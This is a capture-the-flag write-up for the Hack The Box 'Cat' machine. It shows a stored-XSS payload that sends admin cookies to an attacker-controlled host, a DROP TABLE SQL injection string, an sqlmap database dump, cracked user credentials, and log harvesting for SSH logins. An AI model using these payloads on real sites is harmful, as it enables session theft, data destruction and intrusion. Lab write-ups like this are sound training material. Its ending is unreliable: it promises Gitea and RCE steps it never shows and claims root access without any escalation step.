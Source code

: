 ```yaml
---
title: Cat - Hack The Box Writeup
date: 2025-02-11
categories: [CTF, Writeups, HTB]
tags: [htb, linux, rce, lfi, stored-xss, privilege-escalation, gitea]
image:
  path: https://blog.n0va.in/assets/images/htb-cat.jpg

  description: A detailed walkthrough of the Cat HTB machine, showcasing exploitation of stored XSS, SQL injection, and Gitea vulnerabilities.
author: l4tmur
---
```


## Nmap Recon and Initial Enumeration

To begin our reconnaissance, we run an Nmap scan to identify open ports and services on the target machine:

```bash
nmap -sV 10.10.11.53 -T5 -Pn
```

The scan results reveal that Port 22 (SSH) and Port 80 (HTTP) are open.

Next, we attempt to access the website by entering the machine’s IP address in a browser. Instead of a standard page, we notice that the hostname `cat.htb` is referenced. To resolve this domain locally, we add it to our `/etc/hosts` file:

```bash
echo "10.10.11.53 cat.htb" | sudo tee -a /etc/hosts
```

With this update, we can now access `cat.htb` in our browser to further explore potential attack vectors.

## Exploring the Application

Before diving deeper, let’s explore the application to get an overall idea.

The website appears to be a community page for cat lovers, featuring a voting system. On further inspection, we find a voting section:

![Voting Section](path-to-voting-image.jpg)

However, voting is currently closed. This suggests that additional functionalities might be accessible after logging in.

### Checking Cookies

Even before logging in, we notice that the application assigns cookies to our session:

```bash
Cookie: session=xyz123
```

### Logging In

After logging in, we gain access to more features, including the ability to participate in contests. Interestingly, there is also a file upload option, which could potentially lead to Remote Code Execution (RCE)—something worth investigating further.

## Subdomain & Directory Enumeration

Meanwhile, we check for subdomains but find nothing significant. Next, we perform directory enumeration using `dirsearch` with a default wordlist:

```bash
dirsearch -u http://cat.htb/
```

During enumeration, we discover a `.git` directory:

```bash
[200] GET /.git/
```

### Extracting .git Repository

To leverage this, we use a tool called `git-dumper`, which helps automate the extraction of `.git` repositories. This tool checks if directory listing is enabled and recursively downloads the `.git` contents for further analysis:

```bash
git-dumper http://cat.htb/.git ./cat_source
```

### Reviewing Extracted Source Code

After extracting the `.git` directory, we now have access to a large portion of the source code. This provides us with a deeper understanding of the application’s structure and potential vulnerabilities.

## Identifying Vulnerabilities

### 1. Stored XSS in Registration (`join.php`)

Upon reviewing `join.php`, we notice an unsanitized user input being directly stored in the database during registration:

```php
// Vulnerable registration code
if ($_SERVER["REQUEST_METHOD"] == "GET" && isset($_GET['registerForm'])) {
    $username = $_GET['username'];  //  Unsanitized input
    $email = $_GET['email'];        //  Unsanitized input

    $stmt_insert = $pdo->prepare("INSERT INTO users (username, email, password) VALUES (:username, :email, :password)");
    $stmt_insert->execute([':username' => $username, ':email' => $email, ':password' => $password]);
}
```

Here, the `username` and `email` fields are not sanitized or validated before being stored in the database. This allows an attacker to inject Stored XSS payloads.

**Example Attack:**

An attacker could register with the following username:

```bash
<script>alert(document.cookie)</script>
```

Since the input is stored in the database without sanitization, whenever this username is displayed, the malicious script executes, potentially stealing cookies from other users.

### 2. SQL Injection in `accept_cat.php`

Analyzing `accept_cat.php`, we find another major vulnerability: SQL Injection due to direct user input in SQL queries.

```php
// VULNERABLE CODE:
$cat_name = $_POST['catName'];
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
$pdo->exec($sql_insert);
```

Here’s why this is dangerous:

1. `$cat_name` is not sanitized before being used in the SQL query.
2. String concatenation is used, making it prone to SQL injection attacks.
3. `exec()` is used instead of prepared statements, leaving the application exposed.

**Example Attack:**

An attacker could send a POST request with:

```bash
catName = '); DROP TABLE accepted_cats; --
```

This would result in the following SQL query execution:

```sql
INSERT INTO accepted_cats (name) VALUES (''); DROP TABLE accepted_cats; --')
```

If executed, this would delete the entire `accepted_cats` table, causing major data loss.

## Exploitation

### Stealing Admin Cookies via Stored XSS

From our earlier findings, we know that the admin (Axel) reviews contest submissions. When he does, the malicious username is displayed, and the payload is executed.

Payload:

```html
<script>document.location='http://10.10.14.17:1111/?c='+document.cookie;</script>
```

Start a web server to capture the cookie:

```bash
python3 -m http.server 1111
```

Once Axel reviews the submission, his cookie is sent to our server:

```bash
GET /?c=admin-session-cookie HTTP/1.1
```

Using the admin cookie, we access the admin panel and exploit the SQL injection in `accept_cat.php` to dump the database.

### Database Dump with SQLmap

Copy the vulnerable request and save it in a file, then run SQLmap:

```bash
sqlmap -r request.txt --dump
```

From the database dump, we retrieve password hashes for multiple users. Cracking the hashes reveals valid credentials for `rosa`:

```bash
rosa:soyunaprincesarosa
```

### Privilege Escalation

While exploring the machine as `rosa`, we check the Apache logs and discover Axel’s SSH credentials:

```bash
cat /var/log/apache2/access.log
```

Using these credentials, we log in as `axel` and retrieve the root flag.

---

This concludes the walkthrough for the Cat HTB machine. We exploited stored XSS, SQL injection, and misconfigured Git repositories to gain full access to the machine. Happy hacking!

